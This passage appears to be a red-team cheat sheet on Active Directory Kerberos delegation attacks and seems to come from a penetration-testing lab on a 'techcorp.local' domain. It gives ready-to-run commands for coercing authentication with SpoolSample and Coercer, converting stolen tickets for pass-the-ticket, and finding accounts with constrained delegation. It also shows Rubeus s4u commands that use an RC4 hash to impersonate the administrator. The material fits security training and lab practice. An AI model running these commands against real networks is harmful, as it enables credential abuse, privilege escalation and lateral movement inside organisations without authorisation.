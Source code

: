 ```powershell
# Note you can specify a target using /targetuser:user
```

New using authentication coersion
```powershell
# Using Spoolsample. The target must be a computer account, such as a domain controller.
# Or you can use social engineering to make someone log into the machine. 
.\SpoolSample.exe <target> <unconstrinedmachine>

# Coercer is a tools that will automate all of the current coersion methods.
# https://github.com/p0dalirius/Coercer
Coercer coerce -t target -l you -u 'User' -p 'Password'
```

Now to use the tickets gained we can go about this in both linux and windows.

For linux we will need to download them to the attack machine, convert them to a format we can use, and set them in an enviornment variable so that tools can refer to the ticket like a variable.

```bash
# Download or copy the ticket to your attack box

# CCache -> kirbi
ticket_converter.py ticket.ccache ticket.kirbi

# kirbi -> CCache
ticket_converter.py ticket.kirbi ticket.ccache
```

**From here follow a Pass The Ticket attack for lateral movement.**

#### Constrained Delegation

Use powerview, AD module, or bloodhound to search for users with constrained delegation configured.

powerview
```powershell
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth
```
AD module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Utilize Rubeus to request the TGS to the delegated host using the configured SPN or use an alternate service.
```powershell
# Default SPN
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /domain:us.techcorp.local /ptt

# Specify Service
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

